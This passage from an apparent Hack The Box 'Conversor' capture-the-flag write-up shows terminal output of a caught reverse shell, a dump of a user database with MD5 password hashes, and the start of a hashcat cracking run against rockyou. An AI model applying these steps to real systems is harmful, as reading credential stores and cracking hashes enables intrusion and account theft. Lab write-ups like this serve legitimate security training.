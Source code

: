 **BOOM**, here is our Shell!
```
┌──(kali㉿kali)-[~/Desktop]
└─$ penelope
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.134.128 • 10.10.14.94
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from conversor~10.10.11.92-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to deploy Python Agent...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/conversor~10.10.11.92-Linux-x86_64/2025_10_29-11_40_43-658.log 📜
───────────────────────────────────────────────────────────────────────
www-data@conversor:~$ 
```

### sqlite 

```
www-data@conversor:~$ ls
conversor.htb
www-data@conversor:~$ cd conversor.htb/
www-data@conversor:~/conversor.htb$ ls
app.py  app.wsgi  instance  __pycache__  scripts  static  templates  uploads
www-data@conversor:~/conversor.htb$ cd instance/
www-data@conversor:~/conversor.htb/instance$ ls
users.db
www-data@conversor:~/conversor.htb/instance$ sqlite3 users.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
files  users
sqlite> select * from users;
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
5|a|0cc175b9c0f1b6a831c399e269772661
sqlite> 
```

### hashcat (md5)

```
┌──(kali㉿kali)-[~/Desktop/HTB/Conversor]                                                          
└─$ hashcat -hh | grep -i md5                                                                      
      0 | MD5                                                        | Raw Hash
...
┌──(kali㉿kali)-[~/Desktop/HTB/Conversor]
└─$ hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt --username
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i7-11370H @ 3.30GHz, 2930/5861 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
```